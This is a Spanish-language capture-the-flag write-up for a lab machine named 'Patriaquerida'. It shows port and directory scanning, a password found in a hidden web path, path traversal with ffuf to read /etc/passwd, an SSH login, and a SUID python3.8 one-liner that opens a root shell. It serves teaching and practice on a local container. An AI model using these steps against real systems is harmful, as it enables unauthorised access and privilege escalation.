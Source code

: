 ```yaml
---
description: '✍️ Autor: JuanR🔍 Dificultad: Fácil 📅 Fecha de creación: 12/01/2025'
---
```


# Patriaquerida

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 172.17.0.2
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/imagen.png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.&#x20;

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 172.17.0.2
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/imagen (1).png" alt=""><figcaption></figcaption></figure>

En el puerto 80 corre la página por defecto de Apache por lo que realizamos un escaneo de directorios.

<figure><img src="../../.gitbook/assets/imagen (2).png" alt=""><figcaption></figcaption></figure>

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,txt,php,xml
```

<figure><img src="../../.gitbook/assets/imagen (5).png" alt=""><figcaption></figcaption></figure>

Observamos que se encuentra un archivo llamado **index.php**, así que procederemos a explorar el contenido de esa ruta.

<figure><img src="../../.gitbook/assets/imagen (3).png" alt=""><figcaption></figcaption></figure>

Nos indican directamente dónde buscar, así que accedemos a la ruta: **172.17.0.2/.hidden\_pass**.

<figure><img src="../../.gitbook/assets/imagen (4).png" alt=""><figcaption></figcaption></figure>

Encontramos lo que parece ser una contraseña: **balu**.

### 🚀 **EXPLOTACIÓN**

Dado que existen rutas visibles, utilizaremos **FFUZ** para explorar más a fondo. Tal como se muestra en la imagen, el servidor es vulnerable a **Path Traversal**, lo que nos permite acceder al archivo **/etc/passwd**.

```bash
ffuf -u "http://172.17.0.2/index.php?FUZZ=/etc/passwd" -w directory-list-2.3-medium.txt -fw 12
```

<figure><img src="../../.gitbook/assets/imagen (6).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/imagen (7).png" alt=""><figcaption></figcaption></figure>

Con la contraseña **balu** nos podemos loguear con el usuario **pinguino**.

```bash
ssh pinguino@172.17.0.2
```

<figure><img src="../../.gitbook/assets/imagen (8).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Indagando encontramos la contraseña del usuario **mario** por lo que pivotamos a él.

<figure><img src="../../.gitbook/assets/imagen (9).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/imagen (10).png" alt=""><figcaption></figcaption></figure>

Al buscar permisos **SUID** encontramos que tenemos con **python3.8**.

```
find / -perm -4000 2>/dev/null
```

<figure><img src="../../.gitbook/assets/imagen (12).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://gtfobins.github.io/gtfobins/python/#suid" %}

```bash
/usr/bin/python3.8 -c 'import os; os.execl("/bin/bash", "bash", "-p")'
```

<figure><img src="../../.gitbook/assets/imagen (13).png" alt=""><figcaption></figcaption></figure>

